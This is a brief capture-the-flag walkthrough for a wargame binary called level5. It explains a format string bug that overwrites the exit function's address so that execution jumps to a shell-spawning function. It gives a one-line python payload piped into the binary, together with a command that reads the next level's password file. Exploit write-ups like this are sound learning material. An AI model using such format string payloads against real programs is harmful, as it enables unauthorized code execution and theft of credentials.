 # Walkthrough

## Disassembling the executable

see source.c

## Exploit


The program is vulnerable to the format string exploit and contains a function 'o' that launches a shell as level6, but this functions is not called. This time we are rewriting the address of the exit function to jump to the function 'o'.


+ 0x8049838: offset of the modification
+ 0x080484a4 - 34 <payload size without padding> = 134513794
Divide by 3 and align to to get the padding needed


``` 
(python -c "print('\x38\x98\x04\x08 %44837942p %44837939p %44837939p %n')"; echo 'cat /home/user/level6/.pass' ) | ./level5
```
